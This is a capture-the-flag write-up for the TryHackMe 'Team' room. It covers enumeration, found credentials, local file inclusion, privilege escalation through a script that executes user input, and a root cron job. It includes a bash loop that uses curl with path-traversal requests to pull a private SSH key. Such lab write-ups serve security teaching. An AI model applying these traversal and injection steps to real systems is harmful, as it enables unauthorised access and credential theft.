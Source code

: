 # [Team](https://tryhackme.com/room/teamcw) TryHackMe Writeup

![](images/BoxImage.png)

## __First Stage : Enumeration__

As usual we start with nmap scan to find open ports.

```
# Nmap 7.91 scan initiated Mon Mar  8 19:59:25 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.65.7
Nmap scan report for 10.10.65.7
Host is up, received syn-ack (0.15s latency).
Scanned at 2021-03-08 19:59:26 IST for 225s
Not shown: 65532 filtered ports
Reason: 65532 no-responses
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRK/xFh/H4lC7shWUUvK9lKxd3VO2OwfsC8LjFEU2CnEUrbVCnzx8jiVp5gO+CVAj63+GXkbIuXpynlQ/4j1dXdVUz/yAZ96cHiCNo6S5ThONoG2g2ObJSviCX2wBXhUJEzW07mRdtx4nesr6XWMj9hwIlSfSBS2iPEiqHfGrjp14NjG6Xmq5hxZh5Iq3dBrOd/ZZKjGsHe+RElAMzIwRK5NwFlE7zt7ZiANrFSy4YD4zerNSyEnjPdnE6/ArBmqOFtsWKZ2p/Wc0oLOP7d6YBwQyZ9yQNVGYS9gDIGZyQCYsMDVJf7jNvRp/3Ru53FMRcsYm5+ItIrgrx5GbpA+LR
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBM4d9TCz3FkEBEJ1VMjOsCrxsbS3YGb7mu9WgtnaFPZs2eG4ssCWz9nWeLolFgvHyT5WxRT0SFSv3vCZCtN86I=
|   256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHUxjoul7JvmqQMtGOuadBwi2mBVCdXhJjoG5x+l+uQn
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar  8 20:03:11 2021 -- 1 IP address (1 host up) scanned in 226.37 seconds
```

Hence open ports are :

* 22
* 80

So let's visit port 80.

![](images/port80.png)



So seeing the source code we get that we have to add **team.thm** to our hosts file.

![](images/source.png)




So going to http://team.thm .

![](images/team.thm.png)


So My next step was gobuster.


```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===========================================================
[+] Url:            http://team.thm/
[+] Threads:        30
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js,txt,html,php,zip,json
[+] Timeout:        10s
===========================================================
2021/03/08 20:45:17 Starting gobuster
===========================================================
/images (Status: 301)
/scripts (Status: 301)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
/index.html (Status: 200)
===========================================================
2021/03/08 21:20:15 Finished
===========================================================
```

So after going through many rabbit holes , I got a hint from a friend saying to look at the scripts directory **deeply**. 

Hence I did a gobuster on scripts dir.And got a interesting file.

```
===========================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===========================================================
[+] Url:            http://team.thm/scripts/
[+] Threads:        30
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     json,js,txt,html,php,zip
[+] Timeout:        10s
===========================================================
2021/03/09 14:50:52 Starting gobuster
===========================================================
/script.txt (Status: 200)
````

So going to that file .

![](images/scriptnew.png)

So we can see that there is an old script which contains username and password , but it's extension is different. Hence I tried some extensions and one extension which worked was **.old**.

![](images/scriptold.png)


Hence using this I got into ftp.

![](images/ftp.png)

So going to workshare directory we see that there is a text file called New_site.txt.

![](images/newsite.png)


So adding dev.team.thm to the hosts file we visit it.

![](images/devteam.png)


## __Second Stage : Initial Access as Dale__


Hence clicking that link gives us the possibility of LFI.

![](images/teamshare.png)

So I tried /etc/passwd

![](images/lfipasswd.png)

So from the txt file we got we can see that the id_rsa is in a config file but we don't know what file . Hence I searched for interesting LFI files and got a list of files.

>https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi-linux-list

Save the list as paths.txt. And I created a script to automate the lfi process. 

```bash
#!/bin/bash
filename='paths.txt'

while read line  
do 
echo "[+] Trying $line"
curl http://dev.team.thm/script.php\?page\=../../../../../../../../$line > result.txt
if [[ -n ` grep "OPENSSH" result.txt`   ]]
then
        break
else
        continue
fi

done < $filename
```

After running the script for sometime , it stops at a particular file. 

![](images/found.png)


So if we open the result.txt we get the id_rsa.

![](images/id_rsa.png)



Hence we can save it and ssh into the machine as dale.


![](images/dale.png)


## __Second Stage : dale to gyles__


Since we have sudo permission let's check what is **admin_checks** .

It is a bash script

```shell
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

After going through some of the rabbit holes I got to know the way to exploit this. The error variable is being executed.

Hence to exploit this :

![](images/gyles.png)


## __Third Stage : Gyles to root__

Since gyles was in admin grp I did a search.

![](images/script.png)


So I downloaded pspy and ran it in the box.


![](images/cronjob1.png)

So I edited the **main_backup.sh** like this.

![](images/editedscript.png)



And go root shell back!


![](images/root.png)